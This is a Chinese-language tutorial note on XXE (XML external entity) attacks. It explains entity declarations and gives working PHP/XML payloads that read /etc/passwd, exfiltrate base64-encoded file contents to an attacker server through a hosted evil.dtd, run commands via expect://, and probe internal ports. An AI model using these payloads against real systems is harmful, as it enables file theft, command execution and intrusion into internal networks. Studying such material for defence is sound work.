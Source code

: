 # XXE攻击

## 基础知识
XML External Entity，xml外部实体攻击。  

其它缩写：  
PCDATA，Parsed Character Data，被解析的字符数据  
DTD，Document Type Definition，文档类型定义  

内部实体声明：  
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer "Bill Gates">
<!ENTITY copyright "Copyright W3School.com.cn">
]>

<test>&writer;&copyright;</test>
```

外部实体声明：  
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```

最基础的读取文件  
```xml
<?xml version="1.0"?>
<!DOCTYPE a [
    <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>
```


## 危害举例
### 读取任意文件
1. 有回显
```php
<?php
$xml=<<<EOF
<?xml version="1.0"?>
<!DOCTYPE a [
    <!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

2. 无回显
可以把数据发到我们的服务器  
攻击脚本：  
```php
<?php
$xml=<<<EOF
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY % file SYSTEM "php://filter/ read=convert.base64-encode/ resource=/etc/issue">
    <!ENTITY % dtd SYSTEM "http://192.168.1.122/evil.dtd">
%dtd;
%send;
]>
EOF;
$data = simplexml_load_string($xml);
# print_r($data);
?>
```

我们服务器部署evil.dtd：  
```r
<!ENTITY % all
"<!ENTITY % send SYSTEM 'http://192.168.1.122/?%file;'>"
>
%all;
```

### 执行系统命令
这里用的是 php的expect扩展  
```php
<?php
$xml=<<<EOF
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY a SYSTEM "expect://id">
]>
<c>&a;</c>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

别的扩展应该也有类似功能。  


### 探测内网端口
请求对应内网网站端口，根据返回内容判断端口是否开放  
```php
<?php
$xml=<<<EOF
<?xml version="1.0"?>
<!DOCTYPE ANY [
    <!ENTITY a SYSTEM "http://192.168.1.1:80/index.php">
]>
<b>%a;</b>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```


### 攻击内网
和探测内网端口的手段类似，发送不同的内容


## 原链接
原链接：https://www.cnblogs.com/r00tuser/p/7255939.html  


---
2020/11/20  
